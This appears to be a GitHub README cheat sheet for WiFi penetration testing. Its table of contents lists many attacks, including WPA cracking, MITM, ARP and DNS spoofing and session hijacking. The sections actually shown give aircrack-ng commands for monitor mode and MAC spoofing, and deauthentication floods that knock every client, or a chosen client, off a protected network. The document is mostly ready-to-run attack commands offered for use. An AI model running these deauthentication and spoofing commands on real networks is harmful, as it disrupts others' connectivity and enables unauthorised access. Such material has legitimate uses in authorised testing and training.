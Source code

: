 ## Table of Contents

* [General WiFi Information](#general-wifi-information)
* [Enabling Monitor mode](#enabling-monitor-mode)
* [Attack/PenTesting](#attackpentesting)
  * [Pre-connection Attacks](#Pre-connection-Attacks)
    * [MAC address changing](#MAC-address-changing)
    * [Deauthenticating All Clients From Protected WiFi Network](#Deauthenticating-All-Clients-From-Protected-WiFi-Network)
    * [Deauthenticating a Client From Protected WiFi Networks](#Deauthenticating-a-Client-From-Protected-WiFi-Networks)
  * [Gaining Access](#encryption-attack)
    * [Find SSID of hidden networks](#wepwpawpa2)
    * [Bypass MAC filtering](#wps)
    * [Captive portals](#others)
	* [WEP ](#others)
	* [WPA ](#others)
	* [WPA 2](#others)
	* [WPA/WPA2 Enterpise](#others)
	* [Fake Access Point](#others)
  * [Post-connection Attacks](#injection)
    * [Capture data](#wepwpawpa2)
    * [Information Gathering](#wps)
    * [Bypass HTTPs](#others)
	* [Bypass router-side security features ](#others)
	* [MITM Attack ](#others)
	* [ARP spoofing](#others)
	* [DNS spoofing](#others)
	* [DoS Attack ](#others)
	* [Data Modification ](#others)
	* [Sniffing Cookies](#others)
	* [Session Hijacking](#others)
	* [Other Attacks](#others)
## Enabling Monitor mode
```Bash
  > iwconfig
  > airmon-ng check kill  
  > airmon-ng start wlan1 
  > airodump-ng wlan1mon 
    OR
  > airodump-ng --band a wlan1mon (show all type of wifi networks 5 Ghz or 2.4 Ghz)
  ```
  ## Pre-connection Attacks
### MAC address changing
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
 ### Deauthenticating All Clients From Protected WiFi Network
```Bash
  > airodump-ng -bssid 44:55:tt:ee:ee:bb --channel 11 wlan0
  > aireplay-ng --deauth 10000000 -a 44:55:tt:ee:ee:bb wlan0  
  ```
### Deauthenticating a Client From Protected WiFi Networks
```Bash
  > aireplay-ng --deauth 10000000 -a 44:55:tt:ee:ee:bb -c 22:dd:33:44:55:66 wlan0  
  ```

